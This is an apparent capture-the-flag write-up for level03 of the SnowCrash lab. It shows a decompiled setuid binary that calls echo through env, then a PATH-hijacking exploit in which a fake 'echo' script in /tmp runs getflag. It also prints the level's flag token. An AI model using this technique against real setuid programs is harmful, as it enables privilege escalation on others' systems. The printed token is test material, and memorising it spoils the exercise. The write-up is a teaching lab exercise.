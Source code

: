 # Level 03

## Initial Reconnaissance
When browsing the files of the home of level03 user, we can see there is binary file called level03 owned by level03.

```bash
ls -al
```

```
total 24
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
```

Executing the binary, it says :
```
Exploit me
```

We can download the binary on our local machine.

```bash
scp -P 4242 level03@[IP]:level03 .
```

We pass it through a binary analysis tool on : https://dogbolt.org/.

```c
int32_t main(int argc, char** argv, char** envp)
{
    gid_t eax = getegid();
    uid_t eax_1 = geteuid();
    setresgid(eax, eax, eax);
    setresuid(eax_1, eax_1, eax_1);
    return system("/usr/bin/env echo Exploit me");
}
```

## Vulnerability Found

We can see that the binary uses setresuid and setresgid to set the effective user and group ID to the real user and group ID. Since it is owned by flag03, it is executed with the user flag03.

We can see that the binary uses system to execute the command '/usr/bin/env echo Exploit me' but echo is a relative path and not an absolute one.

## Exploitation Steps

We can modify the called echo command to execute our own command. Here we can flag03 to execute getflag. Let's create a file called echo.

```bash
mkdir /tmp/exploit
cd /tmp/exploit

cat > echo << 'EOF'
#!/bin/bash
/bin/getflag
EOF

chmod +x echo
```

We can now add it to the PATH and execute the binary.

```bash
export PATH=/tmp/exploit:$PATH
./level03
```

```
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

## Additional Notes

